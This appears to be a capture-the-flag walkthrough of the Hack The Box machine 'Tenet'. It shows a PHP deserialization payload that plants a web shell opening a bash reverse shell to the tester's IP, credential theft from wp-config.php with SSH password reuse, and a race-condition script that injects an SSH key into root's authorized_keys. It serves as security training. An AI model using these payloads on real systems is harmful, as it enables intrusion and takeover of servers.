









# Tenet

## Details

- **Points**: 30
- **Difficulty**: Medium
- **Operating System**: Linux
- **IP Address**: 10.10.10.223

## Table of Contents

- Foothold
  - [Network Scanning](#network-scanning)
  - [Web Application Enumeration](#web-application-enumeration)
  - [Virtual Hosting & Wordpress Enumeration](#virtual-hosting--wordpress-enumeration)
  - [Exploiting PHP Deserialization](#exploiting-php-deserialization)
  - [Getting Initial Foothold](#getting-initial-foothold)
- User
  - [Looking for credentials in Wordpress configuration file](#looking-for-credentials-in-wordpress-configuration-file)
  - [Getting the User Flag](#getting-the-user-flag)
- ## Root
  - [`enableSSH.sh`](#enablesshsh)
  - [Exploiting Race Condition Vulnerability](#exploiting-race-condition-vulnerability)
  - [Getting the Root Flag](#getting-the-root-flag)

## Walkthrough

### Network Scanning

Let's start with scanning the network with Nmap.

```
$ sudo nmap -A -oA nmap/out -p$(nmap -T4 -p- 10.10.10.223 | grep ^[0-9] | cut -d '/' -f 1 | tr '\n' ',' | sed 's/,$//') 10.10.10.223
[sudo] password for kali:
Starting Nmap 7.91 ( https://nmap.org ) at 2021-06-15 22:14 AEST
Nmap scan report for tenet.htb (10.10.10.223)
Host is up (0.032s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 cc:ca:43:d4:4c:e7:4e:bf:26:f4:27:ea:b8:75:a8:f8 (RSA)
|   256 85:f3:ac:ba:1a:6a:03:59:e2:7e:86:47:e7:3e:3c:00 (ECDSA)
|_  256 e7:e9:9a:dd:c3:4a:2f:7a:e1:e0:5d:a2:b0:ca:44:a8 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-generator: WordPress 5.6
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Tenet
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 4.15 - 5.6 (95%), Linux 5.3 - 5.4 (95%), Linux 2.6.32 (95%), Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (94%), Linux 5.0 - 5.3 (94%), ASUS RT-N56U WAP (Linux 3.4) (93%), Linux 3.16 (93%), Linux 5.0 (93%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 80/tcp)
HOP RTT      ADDRESS
1   27.49 ms 10.10.14.1
2   27.59 ms tenet.htb (10.10.10.223)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.60 seconds
```

There is a web server running in the remote machine, let's visit it.

## Web Application Enumeration

When visiting `http://10.10.10.223/` on our browser, we are greeted by the default page of apache web server.


However, according to the Nmap output, the web server uses Wordpress as its content management system.

```
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-generator: WordPress 5.6
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Tenet
```

We can confirm this by running dirbuster on the web application.

```
$ gobuster dir --url 'http://10.10.10.223' --wordlist /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.223
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2021/06/15 22:31:51 Starting gobuster in directory enumeration mode
===============================================================
/wordpress            (Status: 301) [Size: 316] [--> http://10.10.10.223/wordpress/]
# -- snip --
```

So, let's visit `http://10.10.10.223/wordpress/`


### Virtual Hosting & Wordpress Enumeration

When we hover over one of the links on the page, we are directed to `tenet.htb`. Therefore, we need to insert

```
10.10.10.223 tenet.htb
```

to `/etc/hosts`.

Now, if we visit `tenet.htb`, we are greeted by a new web page.


It was quite weird to me at first since the IP address `10.10.10.223` and `tenet.htb` (which translates to the same IP address) direct us to different web pages. However, I now figured out that [virtual hosting](https://en.wikipedia.org/wiki/Virtual_hosting) is involved in this. Based on our request, the web server will route us to different web page. For example, if we requested for `10.10.10.223`, the web server will direct us to the default apache page and if we requested for `tenet.htb`, the web server will direct us to the wordpress website.

Now, let's manually enumerate the wordpress website.

Under **Recent Comments**, we find that user **neil** made a comment on **Migration** post.


**neil** mentioned something about sator php file and its backup. So, let's try to find these files.

Visiting `tenet.htb/sator.php` results in `404 Not Found` error.

Earlier, I mentioned that the web server uses virtual hosting that can direct us to different web pages based on our request. Let's visit `10.10.10.223/sator.php` and hope that the file is hosted on that virtual host.


And it does.
Next, we can try to find its backup. One of the easier methods to find a backup file is to append [`.bak`](https://en.wikipedia.org/wiki/Bak_file) extension to the file name. Let's request for `sator.php.bak`.


Visiting `10.10.10.223/sator.php.bak` allows us to download the backup file.

### Exploiting PHP Deserialization

```php
<?php

class DatabaseExport
{
	public $user_file = 'users.txt';
	public $data = '';

	public function update_db()
	{
		echo '[+] Grabbing users from text file <br>';
		$this-> data = 'Success';
	}


	public function __destruct()
	{
		file_put_contents(__DIR__ . '/' . $this ->user_file, $this->data);
		echo '[] Database updated <br>';
	//	echo 'Gotta get this working properly...';
	}
}

$input = $_GET['arepo'] ?? '';
$databaseupdate = unserialize($input);

$app = new DatabaseExport;
$app -> update_db();


?>
```

From the backup file, we can determine that the web server is vulnerable to PHP object injection through the `unserialize` function. [This](https://medium.com/swlh/exploiting-php-deserialization-56d71f03282a) is a great article that explains the vulnerability and how to exploit it.

The main idea is, based on the backup file, `sator.php` will look for GET request parameter `arepo`. If found, it will unserialize whatever passed on through the parameter without sanitization and create a new `DatabaseExport` object based on the deserialized input.

`__destruct()`, one of the PHP magic methods, will automatically get called once the processing is completed and the object is not needed anymore. According to the backup file, `__destruct()` will write whatever in `$data` to the file `$user_file` and the file will be stored in the same directory as `sator.php` based on the following line:

```php
file_put_contents(__DIR__ . '/' . $this ->user_file, $this->data);
```

Note that `__DIR__` returns the directory of the current script, in this case, the directory of `sator.php`.

So, what we need to do is to create a serialized `DatabaseExport` object and make sure to URL encode it to avoid encoding problem. We can set `$user_file` and `$data` as follows:

```php
<?php

class DatabaseExport
{
	public $user_file = 'shell.php';
	public $data = '<?php passthru("/bin/bash -c \'bash -i >& /dev/tcp/10.10.14.24/4444 0>&1\'") ?>';
}

print urlencode(serialize(new DatabaseExport))

?>
```

`$data` contains the php code needed to establish a reverse shell and send it to our local machine. The code will be written to `$user_file`, in this case, `shell.php`. Once we made the GET request with the appropriate parameter, we can visit `10.10.10.223/shell.php` and the php code will be executed by the server, which will give us the reverse shell.

Execute the PHP script (in this case, I named it `serialise.php`) that we created to get the url encoded serialized php object.

```
$ php serialise.php
O%3A14%3A%22DatabaseExport%22%3A2%3A%7Bs%3A9%3A%22user_file%22%3Bs%3A9%3A%22shell.php%22%3Bs%3A4%3A%22data%22%3Bs%3A77%3A%22%3C%3Fphp+passthru%28%22%2Fbin%2Fbash+-c+%27bash+-i+%3E%26+%2Fdev%2Ftcp%2F10.10.14.24%2F4444+0%3E%261%27%22%29+%3F%3E%22%3B%7D
```

Now, let's set up a netcat listener in our local machine with `nc -nlvp 4444` and make GET request to

```
10.10.10.223/sator.php?arepo=O%3A14%3A%22DatabaseExport%22%3A2%3A%7Bs%3A9%3A%22user_file%22%3Bs%3A9%3A%22shell.php%22%3Bs%3A4%3A%22data%22%3Bs%3A77%3A%22%3C%3Fphp+passthru%28%22%2Fbin%2Fbash+-c+%27bash+-i+%3E%26+%2Fdev%2Ftcp%2F10.10.14.24%2F4444+0%3E%261%27%22%29+%3F%3E%22%3B%7D
```

If our GET request is successful, we will be shown the following on `sator.php` page


The `__destruct()` method will be executed twice as it successfully deserialised our input.

### Getting Initial Foothold

What we need to do now is to visit `10.10.10.223/shell.php` and the page will keep on loading as it sends the reverse shell to our local machine. Let's check the netcat listener that we set up earlier.

```
$ nc -nlvp 4444
listening on [any] 4444 ...
connect to [10.10.14.24] from (UNKNOWN) [10.10.10.223] 38528
bash: cannot set terminal process group (1532): Inappropriate ioctl for device
bash: no job control in this shell
www-data@tenet:/var/www/html$
```

We managed to get access to the remote machine as `www-data`.

### Looking for credentials in Wordpress configuration file

Next, we need to look for configuration files. This is because configuration files often contain credentials, such as the database password, which might be re-used by the users for other logins. In this case, we know that wordpress is running on the web server. So, let's look for wordpress' configuration file.

A [simple google search](https://wordpress.org/support/article/editing-wp-config-php/) leads us to `wp-config.php`. Currently, we are inside `/var/www/html`, which contains the wordpress directory.

```
www-data@tenet:/var/www/html$ ls -la
# -- snip --
drwxr-xr-x 5 www-data www-data  4096 Jan  7 10:04 wordpress
www-data@tenet:/var/www/html$
```

Inside the wordpress directory, we can find the `wp-config.php` file.

```
www-data@tenet:/var/www/html$ cd wordpress && ls -la
# -- snip --
-rw-r--r--  1 www-data www-data  3185 Jan  7 10:04 wp-config.php
# -- snip --
```

Reading the file content, we found the following username and password.

```
www-data@tenet:/var/www/html/wordpress$ cat wp-config.php
# -- snip --
define( 'DB_NAME', 'wordpress' );

/** MySQL database username */
define( 'DB_USER', 'neil' );

/** MySQL database password */
define( 'DB_PASSWORD', 'Opera2112' );
# -- snip --
```

Let's try to SSH into the remote machine as `neil` with password `Opera2112` and hope that the password is reused.

```
$ ssh neil@10.10.10.223
neil@10.10.10.223's password:
Welcome to Ubuntu 18.04.5 LTS (GNU/Linux 4.15.0-129-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Wed Jun 16 05:47:44 UTC 2021

  System load:  0.08               Processes:             167
  Usage of /:   15.1% of 22.51GB   Users logged in:       0
  Memory usage: 9%                 IP address for ens160: 10.10.10.223
  Swap usage:   0%


53 packages can be updated.
31 of these updates are security updates.
To see these additional updates run: apt list --upgradable


Last login: Thu Dec 17 10:59:51 2020 from 10.10.14.3
neil@tenet:~$
```

### Getting the User Flag



### `enableSSH.sh`

Run `sudo -l` to list out commands that the user can execute as root with no password.

```
neil@tenet:~$ sudo -l
Matching Defaults entries for neil on tenet:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:

User neil may run the following commands on tenet:
    (ALL : ALL) NOPASSWD: /usr/local/bin/enableSSH.sh
```

As user `neil`, we are able to run `enableSSH.sh` as root without password. Let's check the script's content.

```
neil@tenet:~$ cat /usr/local/bin/enableSSH.sh
#!/bin/bash

checkAdded() {

        sshName=$(/bin/echo $key | /usr/bin/cut -d " " -f 3)

        if [[ ! -z $(/bin/grep $sshName /root/.ssh/authorized_keys) ]]; then

                /bin/echo "Successfully added $sshName to authorized_keys file!"

        else

                /bin/echo "Error in adding $sshName to authorized_keys file!"

        fi

}

checkFile() {

        if [[ ! -s $1 ]] || [[ ! -f $1 ]]; then

                /bin/echo "Error in creating key file!"

                if [[ -f $1 ]]; then /bin/rm $1; fi

                exit 1

        fi

}

addKey() {

        tmpName=$(mktemp -u /tmp/ssh-XXXXXXXX)

        (umask 110; touch $tmpName)

        /bin/echo $key >>$tmpName

        checkFile $tmpName

        /bin/cat $tmpName >>/root/.ssh/authorized_keys

        /bin/rm $tmpName

}

key="ssh-rsa AAAAA3NzaG1yc2GAAAAGAQAAAAAAAQG+AMU8OGdqbaPP/Ls7bXOa9jNlNzNOgXiQh6ih2WOhVgGjqr2449ZtsGvSruYibxN+MQLG59VkuLNU4NNiadGry0wT7zpALGg2Gl3A0bQnN13YkL3AA8TlU/ypAuocPVZWOVmNjGlftZG9AP656hL+c9RfqvNLVcvvQvhNNbAvzaGR2XOVOVfxt+AmVLGTlSqgRXi6/NyqdzG5Nkn9L/GZGa9hcwM8+4nT43N6N31lNhx4NeGabNx33b25lqermjA+RGWMvGN8siaGskvgaSbuzaMGV9N8umLp6lNo5fqSpiGN8MQSNsXa3xXG+kplLn2W+pbzbgwTNN/w0p+Urjbl root@ubuntu"
addKey
checkAdded
```

The script will create a name for a temporary file with [mktemp](https://www.gnu.org/software/autogen/mktemp.html#TOP), where the file name will have the prefix `/tmp/ssh-` and followed by 8 random characters.

The file is then created with `touch`, such that everyone is able to write on the file `umask 110` (by default the file permision is `666`, i.e. `110 110 110` in binary, which is then modified by the umask `001 001 000`, i.e. `110 110 110 - 001 001 000 = 110 110 110`, which is equal to rw-rw-rw-, or readable and writable by everyone.)

Next, it echoes the public key specified in the script in variable `key` to the file and eventually to `/root/.ssh/authorized_keys`.

Finally, it removes the file.

`checkFile` simply checks if the file exists & the file is a non-empty regular file.

`checkAdded` checks whether the SSH username is correctly added to `/root/.ssh/authorized_keys`.

### Exploiting Race Condition Vulnerability

When checking the [manual page](https://man7.org/linux/man-pages/man1/mktemp.1.html) for `mktemp`, option `-u` is considered unsafe. Researching this leads me to [this](https://unix.stackexchange.com/questions/539690/why-is-mktemp-u-considered-unsafe). `mktemp -u` may result in a race condition vulnerability, where two processes try to write to the same file at the same time and the last to write will be the winner as their changes will overwrite the changes made by the faster process.

So, what we can do is to create our own bash script that will try to write our own public SSH key to the file that starts with `ssh-` in `/tmp` directory.

Firstly, let's generate our own pair (public & private) SSH keys.

```
$ ssh-keygen -t rsa
Generating public/private rsa key pair.
Enter file in which to save the key (/home/kali/.ssh/id_rsa): ./id_rsa
Enter passphrase (empty for no passphrase):
Enter same passphrase again:
Your identification has been saved in /home/kali/.ssh/id_rsa
Your public key has been saved in /home/kali/.ssh/id_rsa.pub
The key fingerprint is:
SHA256:rVYdi+YwiowY49qr892xar+wykDS1+FTLUteyqE7xwk kali@kali
The key's randomart image is:
+---[RSA 3072]----+
|                 |
|         .       |
|      . = o .    |
| .   o B B o o   |
|+.. . E S = o    |
|++ + . * O       |
|o.. + = * .      |
|o+ ..+ *         |
|o+*++o=.         |
+----[SHA256]-----+
```

and upload it to the remote server by creating a python server on our local machine `python3 -m http.server 9999` and download it from the remote server with `cd /tmp && curl -O 10.10.14.24:9999/id_rsa.pub`.

Then, let's create the bash script.

```
#!/bin/bash

while true; do
    cat /tmp/id_rsa.pub > "$(ls | grep ssh)"
done
```

and make it executable with `chmod +x script`.

The script will run with an infinite loop and try to insert our public key to the file whose name starts with `ssh`, which is the one created by enableSSH.sh.

Note that we need double quotes around `$(ls | grep ssh)`, otherwise, we get [ambiguous redirect error](https://stackoverflow.com/questions/2462385/getting-an-ambiguous-redirect-error).

Now, run the script with `./script` in `/tmp`.

Login as `neil` in another terminal window and execute `sudo /usr/local/bin/enableSSH.sh`. Note that we need to run this command multiple times to successfully exploit the race condition vulnerability.

### Getting the Root Flag

Finally, SSH into the remote machine as root with `ssh -i id_rsa root@tenet.htb` from your local machine, inside the directory where you store `id_rsa` private key file that we created earlier with `ssh-keygen`.

```
$ ssh -i id_rsa root@tenet.htb
Welcome to Ubuntu 18.04.5 LTS (GNU/Linux 4.15.0-129-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Wed Jun 16 06:43:50 UTC 2021

  System load:  1.0                Processes:             177
  Usage of /:   15.1% of 22.51GB   Users logged in:       1
  Memory usage: 10%                IP address for ens160: 10.10.10.223
  Swap usage:   0%


 * Canonical Livepatch is available for installation.
   - Reduce system reboots and improve kernel security. Activate at:
     https://ubuntu.com/livepatch

53 packages can be updated.
31 of these updates are security updates.
To see these additional updates run: apt list --upgradable

Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


Last login: Thu Feb 11 14:37:46 2021
root@tenet:~#
```


